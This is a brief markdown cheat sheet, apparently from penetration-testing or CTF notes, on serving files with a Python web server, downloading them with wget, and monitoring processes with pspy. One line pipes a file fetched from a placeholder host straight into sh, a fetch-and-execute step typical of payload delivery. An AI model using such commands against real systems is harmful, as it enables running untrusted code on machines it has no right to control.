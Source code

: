 # Python

## Start a web server

```bash
python3 -m http.server 8000
```

## Download a file from the web server

```bash
wget http://<IP>:8000/file
```

## Execute a file from the web server

```bash
curl http://<IP>:8000/file | sh
```

## Monitor a file

We can use `pspy` to monitor a file.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
./pspy64 <FILE>
```